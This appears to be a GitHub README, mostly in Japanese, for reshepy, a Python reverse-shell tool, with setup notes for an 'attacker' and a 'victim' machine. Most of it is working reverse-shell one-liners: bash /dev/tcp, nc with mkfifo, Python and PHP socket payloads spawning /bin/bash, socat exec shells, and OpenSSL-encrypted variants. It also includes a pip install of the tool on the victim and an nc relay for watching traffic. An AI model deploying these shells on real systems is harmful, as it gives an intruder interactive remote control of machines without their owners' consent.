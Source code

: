 # reverse shell written in python

このコマンドの存在意義はvictimマシン上で，secure/nosecureなどをオプションで区別して起動できる点(pythonのone linerを上回る明示的なメリットはない)

## What is reverse shell?
* [Reverse Shell \(リバースシェル\) 入門 & 実践 \- 好奇心の足跡]( https://kusuwada.hatenablog.com/entry/2019/10/30/044325 )

## reverse shell use case
* 任意のコマンドを実行できるサーバであるが，インタラクティブな操作ができない場合
  * jenkinsのslave(victim) <-> my machine(attacker)

## how to install
``` bash
# victim machine
# for avoiding 'pip Installing collected packages: UNKNOWN'
pip3 install setuptools --upgrade
pip3 install https://github.com/umaumax/reshepy/archive/master.tar.gz
```

``` bash
# atacker machine
# mac
brew install socat
# ubuntu
sudo apt-get install -y socat
```

----

<!-- ## darwin -->
<!-- * [macos \- Create reverse shell using High Sierra? \- Ask Different]( https://apple.stackexchange.com/questions/324824/create-reverse-shell-using-high-sierra ) -->
<!-- ### attacker machine -->
<!-- ### victim machine -->

## TL;DR
* attacker machine
  * 基本的に自由な環境
    * 最低限`socat`がないと実作業には適さない
    * `openssl`はsecureな通信を実現したいならば欲しい
* victim machine
  * `openssl`さえあればsecureな通信が可能
  * `socat`があるに越したことはないが，`pty`(e.g. `python -c 'import pty; pty.spawn("/bin/sh")'`)での代用や直接バイナリをダウンロードする方法があるので，`socat`コマンドは必須ではない
    * e.g. [static\-binaries/socat at master · andrew\-d/static\-binaries]( https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat )

## reshepy DONE
* 通信のみはsecureで制御信号も受け付ける

## reshepy TODO
* attackerがclient証明書を利用するケース
* victimがserver証明書を利用するケース(only victim reshepy ok)
* ファイルを共有せずにone linerで上記の項目を実現し，完全にsecureとしたい

----

## ubuntu
### attacker machine
``` bash
nc -nvlp 8080
```

### victim machine
``` bash
bash -i >& /dev/tcp/localhost/8080 0>&1
```

## common (mac, ubuntu)
### attacker machine
``` bash
nc -nvl 8080
```

``` bash
# socat tcp-listen:8080,reuseaddr,fork stdout
# below command can handle signal and tab
socat $(tty),raw,echo=0 tcp-listen:8080,reuseaddr
```

### victim machine
``` bash
mkfifo myfifo
nc 127.0.0.1 8080 < myfifo | /bin/bash -i > myfifo 2>&1
rm -f myfifo
```

これはptyを利用していないのでsocatと組み合わせても効果を発揮しない悪い例
``` bash
python -c 'import sys,socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((sys.argv[1],int(sys.argv[2])));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);' 127.0.0.1 8080
```

socatもopensslもない状況のvictimでもpythonさえあればOK
``` bash
python -c 'import sys;import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((sys.argv[1],int(sys.argv[2])));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")' localhost 8080
```

<details>
<summary>tmuxでshellの画面をresizeすると下記のようなエラーが発生する</summary>
<!-- you must insert blank line -->
```
Traceback (most recent call last):
                                      File "<string>", line 1, in <module>
                                                                            File "/usr/lib/python2.7/pty.py", line 175, in spawn
                                                                                                                                    _copy(master_fd, master_read, stdin_read)
                                       File "/usr/lib/python2.7/pty.py", line 147, in _copy
                                                                                               rfds, wfds, xfds = select(fds, [], [])
                                                                                                                                     select.error: (4, 'Interrupted system call')
```
</details>



``` bash
php -r '$sock=fsockopen($argv[1],intval($argv[2]));exec("/bin/bash -i <&3 >&3 2>&3");' 127.0.0.1 8080
```

``` bash
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:localhost:8080
```

``` bash
reshepy localhost:8080
```
ptyを内部で利用しているのでsocat対応済み

## FYI
* [PayloadsAllTheThings/Reverse Shell Cheatsheet\.md at master · swisskyrepo/PayloadsAllTheThings]( https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md?source=post_page-----c7598145282d---------------------- )
* `source`: [ersh\.py: a pure Python encrypted reverse shell \| Borderline]( https://blog.kwiatkowski.fr/?q=en/ersh )

## secure

[OpenSSLでReverse Shellの通信を暗号化する\(\+"Ctrl\+C"の対応\) \| 俺的備忘録 〜なんかいろいろ〜]( https://orebibou.com/2019/07/openssl%E3%81%A7reverse-shell%E3%81%AE%E9%80%9A%E4%BF%A1%E3%82%92%E6%9A%97%E5%8F%B7%E5%8C%96%E3%81%99%E3%82%8B%E3%82%AD%E3%83%BC%E3%83%90%E3%82%A4%E3%83%B3%E3%83%89%E5%AF%BE%E5%BF%9C/ )

* 通信内容はsecureだが，通信相手が正しいとはわからない

### attacker machine
``` bash
# openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 3650 -nodes
# Country Name (2 letter code) []: US
# Common Name (eg, fully qualified host name) []:www.localhost.com
openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 3650 -nodes -subj "/C=US/ST=/L=/O=/OU=/CN=www.localhost.com/emailAddress=/"

openssl s_server -quiet -key key.pem -cert cert.pem -port 8080
```

`socat` secure version
``` bash
# verify=0: no client certificate check
socat $(tty),raw,echo=0 openssl-listen:8080,reuseaddr,cert=cert.pem,key=key.pem,verify=0
```

at darwin
`stty: stdin isn't a terminal`

* [OpenSSL: How to create a certificate with an empty subject? \- Stack Overflow]( https://stackoverflow.com/questions/26058406/openssl-how-to-create-a-certificate-with-an-empty-subject )
* [x509 \- OpenSSL: How to create a certificate with an empty subject DN? \- Super User]( https://superuser.com/questions/512673/openssl-how-to-create-a-certificate-with-an-empty-subject-dn )

### victim machine
pythonとopensslが使える場合
``` bash
rm -f .fifo; mkfifo .fifo;python -c 'import pty; pty.spawn("/bin/bash")' < .fifo 2>&1 | openssl s_client -quiet -connect localhost:8080 > .fifo;rm -f .fifo
```
pythonのspawn a TTY shell from an interpreterを利用することでsocat(fully tty reverse shell)なしでも制御コマンド対応となる

socatとopensslが使える場合
`socat` secure version
``` bash
socat openssl-connect:localhost:8080,verify=0 exec:'bash -li',pty,stderr,setsid,sigint,sane
```
より安全に通信したい場合には`verify=1`とする?

* client側が適切なサーバかどうかを判定する処理
  * (ctrl-cやtab ok)

``` bash
reshepy -c cert.pem --host=www.localhost.com localhost:8080
```
* 上記のコマンドのcert.pemに該当する部分をbase64でencodeしてテキストベースで貼り付ければ余計なファイルは不要な状態となる
  * また，基本的に，victimが変なサーバに接続することを防止できれば，attackerが変なクライアントを受け入れてもそれほど問題はない
    * (attacker側はコマンドの送信と表示のみであることと，ユースケースとしてネットワーク的に外からのアクセスは受け付けない場所にあると仮定されるため)

----

## port forwarding
下記のコマンドを`attacker`のlocalで動作させれば通信内容を見ることができる
`localhost:8081`->`127.0.0.1:8080`
``` bash
mkfifo fifo
while true ; do nc -l 8081 < fifo | tee /dev/stderr | nc 127.0.0.1 8080 | tee /dev/stderr > fifo; done
rm -f fifo
```

----

## NOTE
* `attacker`と`victim`のコマンドの組み合わせは基本的に自由
* macでは`/dev/tcp/xxx`や`/dev/udp/xxx`などは利用できない
* attackerで`nc`を利用して待ち受けている場合は`ctrl-c`で`nc`が終了してしまう
  * `socat`を利用すればよいが，macには存在しない
* 通常は非暗号化状態で通信
* 接続直後に画面が乱れた場合には`stty sane`
